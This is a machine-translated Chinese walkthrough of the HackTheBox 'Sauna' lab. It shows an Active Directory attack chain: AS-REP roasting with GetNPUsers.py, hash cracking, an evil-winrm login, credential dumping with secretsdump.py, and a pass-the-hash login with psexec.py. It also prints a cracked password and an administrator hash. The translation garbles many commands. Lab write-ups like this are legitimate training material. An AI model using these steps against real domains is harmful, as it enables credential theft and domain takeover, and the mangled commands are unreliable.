# HacktheBox 桑拿报道

> 原文：<https://infosecwriteups.com/hackthebox-sauna-write-up-7c1423a37088?source=collection_archive---------0----------------------->



让我们开始探索盒子的旅程。这是一个有 20 个点的简单的 windows 框。我们将利用一些工具来提升权限，例如 [EvilWinRm](https://github.com/Hackplayers/evil-winrm) 、 [GetNPUsers](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) 、winPEAS、mimikatz.exe 和 secretdump.py。

# 列举

我们将运行 [nmapAutomator](https://github.com/21y4d/nmapAutomator) 工具，它将覆盖所有类型的基本枚举。

> 。/nma 自动马达 10.10.10.175 全部

结果如下

> 10.10.10.175
> 主机的 Nmap 扫描报告已启动(0.30 秒延迟)。
> 
> 端口状态服务版本
> 53/tcp 开放域？
> | fingerprint-strings:
> | DNSVersionBindReqTCP:
> | version
> | _ bind
> 80/TCP open http Microsoft IIS httpd 10.0
> | http-methods:
> | _ 潜在风险方法:TRACE
> | _ http-server-header:Microsoft-IIS/10.0
> | _ http-title:egotic Bank::Home
> 88/TCP open
> 464/tcp 开放 kpasswd5？
> 593/TCP open ncacn _ HTTP Microsoft Windows RPC over HTTP 1.0
> 636/TCP open TCP wrapped
> 3268/TCP open LDAP Microsoft Windows Active Directory LDAP(Domain:egotistic-bank . local 0，Site:Default-First-Site-Name)
> 3269/TCP open TCP wrapped
> 1 尽管返回数据，但无法识别服务。如果知道服务/版本，请在 https://nmap.org/cgi-bin/submit.cgi?new-service 提交以下指纹:
> SF-port 53-TCP:V = 7.80% I = 7% D = 7/16% Time = 5 F10 BD 89% P = x86 _ 64-PC-Linux-GNU % r(DNSV
> SF:ersionbindrektcp，20，" \ 0 \ x1e \ 0 \ x06 \ x81 \ x04 \ 0 \ x01 \ 0 \ 0 \ 0 \ 0 \ 0 \ 0
> 
> 5985/tcp 打开 http 微软 http API httpd 2.0(SSDP/UPnP)
> | _ http-server-header:微软-HTTPAPI/2.0
> |_http-title:未找到
> 9389/tcp 打开 mc-nmf。NET 消息组帧
> 49667/tcp 打开 msrpc Microsoft Windows RPC
> 49673/TCP 打开 msrpc Microsoft Windows RPC
> 49674/TCP 打开 ncacn _ HTTP Microsoft Windows RPC over HTTP 1.0
> 49675/TCP 打开 msrpc Microsoft Windows RPC
> 49686/TCP 打开 msrpc Microsoft Windows RPC
> 58118/TCP 打开 msrpcOS:Windows；CPE: cpe:/o:microsoft:windows
> 
> 主机脚本结果:
> | _ clock-skew:7h 05 m02s
> | sm B2-security-mode:
> | 2.02:
> | _ 消息签名已启用且需要
> | sm B2-time:
> | date:2020–07–17t 03:57:44
> | _ start _ date:N/A

有一堆端口开放，让我们列出端口，这将有助于利用盒子。端口 80 上运行着 Web 服务器。我们在端口 389 和 3268 上运行 kerberos 服务。我们还得到了 ldap 服务提供者透露的域名——BANK。本地的。

我继续用 enum4linux 枚举，但是没有找到任何用户名。我们甚至试图列举中小型企业，但没有发现有趣的东西。

当我们打开 HTTP 端口时，让我们列举网站。



访问该网站后，在“关于我们”中发现了一些用户名

让我们记下用户名的组合类型，这将有助于我们在 ldap 和 kerberos 中进行枚举。下面是我们可以形成 user.txt 的格式。



得到一些用户名后。我们将使用 Impacket 工具，它有一个 GetNPUsers python 脚本，仅当用户帐户不需要 kerberos 每身份验证时，该脚本才返回 TGT(票证授予票证)。

# 剥削

现在，我们将针对域名运行 GetNPUsers.py，这将为我们提供用户 FSmith 的 TGT。

> cmd:-python 3 getnp users . py EGOTISTICAL-BANK.LOCAL/-users file user . txt-output file TGT . txt-DC-IP 10 . 10 . 10 . 175



在 john 使用 rockyou.txt 文件破解哈希之后，我们获得了

> 史密斯:中风 23



现在我们将使用 evil-winrm 登录。



作为 FSmith 登录后，我们得到了 user.txt 文件。现在让我们继续后剥削。



# 后剥削

让我们先列出在场的用户。

方法是使用“winPEAS.exe”收集信息并获得 svc_loanmgr 的密码，因为我们获得了 DPAPI 主密钥，我们可以使用 mimikatz 进行攻击。



然后执行 winPEAS.exe 文件。以下是一些有趣的发现。



现在我们已经得到了 svc_loanmgr 用户的默认密码。

的结果。/winPEAS.exe 我们获得了 DPAPI 主密钥，我们可以使用 mimikatz 攻击它。

让我们通过 [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) 来转储散列

> cmd:-python 3 secrets dump . py egotistic-BANK/SVC-loan mgr @ 10 . 10 . 10 . 175



现在让我们使用管理员散列通过 [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) 登录

> cmd:-python 3 psexec . py-hashes aad3b 435 b 51404 eeaad3b 435 b 51404 ee:d 9485863 C1 e9 e 05851 aa 40 CB B4 ab 9 dff Administrator @ 10 . 10 . 10 . 175



答对了，我们已经成功地把盒子固定住了。

> 感谢阅读。

[点击这里](https://www.hackthebox.eu/profile/196419)

[点击这里](http://buymeacoff.ee/Viston)

 [## SecureAuthCorp/impacket

### Impacket 是用于处理网络协议的 Python 类的集合。Impacket 专注于提供…

github.com](https://github.com/SecureAuthCorp/impacket)  [## 黑客玩家/邪恶-winrm

### 用于黑客攻击/测试的终极 WinRM 外壳这个外壳是用于黑客攻击/测试的终极 WinRM 外壳。WinRM…

github.com](https://github.com/Hackplayers/evil-winrm)  [## Hackthebox 桑拿记录

### 托管在端口 80 上的网站在“关于我们”上有一些用户名，在名称上做了一些变化，并做了…

0xprashant.github.io](https://0xprashant.github.io/posts/hackthebox-sauna/)